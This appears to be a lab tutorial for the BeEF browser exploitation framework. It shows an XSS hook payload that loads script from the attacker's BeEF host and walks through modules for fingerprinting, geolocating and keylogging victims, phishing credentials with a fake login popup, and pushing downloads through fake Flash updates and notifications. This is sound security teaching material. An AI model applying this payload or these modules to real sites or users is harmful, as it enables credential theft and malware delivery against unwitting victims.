 # BeEF Tutorial

This tutorial assumes you followed the [installation instructions](README.md)
and that the BeEF application is up and running, and can be reached at
[http://beef.local](http://beef.local) as well as
[http://vulnerable.local](http://vulnerable.local).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto the administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view

For the victim's point of view, open a _new browser window_. Let's now surf to a
vulnerable site which automatically contains a Cross-Site Scripting exploit
payload. In real life this would be a vulnerable site, where an attacker managed
to exploit a Cross-Site Scripting vulnerability.

[http://vulnerable.local:3000/demos/basic.html](http://vulnerable.local:3000/demos/basic.html)

So now you're visiting a vulnerable website, _which automatically has been
'exploited' for demonstration purposes_: a payload has been added.

The payload contains a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

Remember you're visiting the site
[http://vulnerable.local:3000/demos/basic.html](http://vulnerable.local:3000/demos/basic.html).
Try to enter something in the form field.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
this moment on, the attacker controls all of the web content in the
[http://vulnerable.local:3000](http://vulnerable.local:3000) tab. Click in the
left hand on the browser in the `vulnerable.local` domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim did during the session.
All entered text as well as mouse and keyboard commands are visible. So
everything that a user now enters at the site
[http://vulnerable.local:3000](http://vulnerable.local:3000) will be intercepted
and sent to the site of the attacker.

### Fingerprint the victim

First let's fingerprint the browser, so the victim can be followed. Select the
_Commands_ tab. This is where the majority of actions will be performed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the `https://ipinfo.io/json` API. If
you now click on _Execute_, the attacker will find out where the victim,
visiting [http://vulnerable.local:3000](http://vulnerable.local:3000), will be
located.

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Flash Update_
module. This will send a convincingly looking update notification. As soon as
the victim clicks **anywhere**, a file will be downloaded. The payload itself
can be modified in the web interface.

For another example, search for _Notification_ and select the _Fake Notification
Bar (Chrome)_ module. This will send a notification to the victim. If the victim
clicks on the notification, it will download a binary file. Note that this step
will fail (the binary file isn't present on our Attacker server), but this will
demonstrate how easy it is to trick victims.

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
